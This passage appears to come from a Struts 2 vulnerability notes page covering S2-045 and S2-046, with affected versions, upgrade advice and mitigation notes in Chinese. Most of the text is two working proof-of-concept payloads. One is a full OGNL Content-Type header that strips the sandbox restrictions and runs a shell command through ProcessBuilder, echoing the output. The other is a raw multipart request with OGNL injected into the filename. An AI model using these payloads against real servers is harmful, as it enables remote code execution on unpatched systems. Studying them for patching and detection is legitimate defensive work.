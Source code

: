 > Upgrade to Apache Struts version 2.3.32 or Struts 2.5.10.1

###### HEAD POC

```
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

---

#### S02-046

> Problem:
> 
> 上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
> 
> header中的Content-Disposition中包含空字节。
> 
> 文件名内容构造恶意的OGNL内容。
> 
> Affected Software: 
> 
> Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
> 
> Solution:
> 
> 1
> 
> 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
> 
> 删除commons-fileupload-x.x.x.jar文件（会造成上传功能不可用）
> 
> 一定不要使用如下的方式
> 
> 2
> 
> Upgrade to Apache Struts version or Struts 2.5.10.1

###### PYTHON POC

```
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
